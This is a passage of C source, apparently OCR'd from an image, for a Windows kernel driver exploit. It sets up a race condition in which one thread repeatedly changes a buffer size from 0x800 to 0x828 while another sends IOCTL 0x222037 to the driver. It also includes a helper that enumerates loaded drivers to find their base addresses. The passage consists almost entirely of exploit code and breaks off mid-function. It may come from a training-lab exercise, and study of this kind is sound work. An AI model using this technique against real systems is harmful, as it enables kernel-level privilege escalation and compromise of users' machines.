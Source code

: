 ```c
    time_t rawtime;
    struct tm timeinfo;

    time(&rawtime); // Get current time

    localtime_s(&timeinfo, &rawtime);
 
    if (start)
    {

        printf("[+] Start time: %02d:%02d:%02d\n",
            timeinfo.tm_hour,
            timeinfo.tm_min,
            timeinfo.tm_sec);
    }
    else {
        printf("[+] End time: %02d:%02d:%02d\n",
            timeinfo.tm_hour,
            timeinfo.tm_min,
            timeinfo.tm_sec);
    }
}

// this is the function trying to win the race
DWORD WINAPI ChangeStruct(void* args)
{
    while (!raceWon)
    {
        userData.sizeOfData = 0x828;
        Sleep(10);
    }
    return NULL;
}

// this is the function sending the initial IOCTL
DWORD WINAPI SendIOCTL(void* args)
{
    userData.pBuffer = userBuffer;
    userData.sizeOfData = 0x800;
    BOOL status = DeviceIoControl(hDriver,
        0x222037, (LPVOID)&userData, sizeof(userData), NULL, 0, NULL, NULL);

    return NULL;
}

typedef uint64_t QWORD;
#define ARRAY_SIZE 1024
#define BUFFER_SIZE 0x810

QWORD getBaseAddr(LPCWSTR drvName) {
    LPVOID drivers[512];
    DWORD cbNeeded;
    int nDrivers, i = 0;
    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded) && cbNeeded < sizeof(drivers)) {
        WCHAR szDrivers[512];
        nDrivers = cbNeeded / sizeof(drivers[0]);
        for (i = 0; i < nDrivers; i++) {
            if (GetDeviceDriverBaseName(drivers[i], szDrivers, sizeof(szDrivers) / sizeof(szDrivers[0]))) {
                if (wcscmp(szDrivers, drvName) == 0) {
                    return (QWORD)drivers[i];
                }
            }
```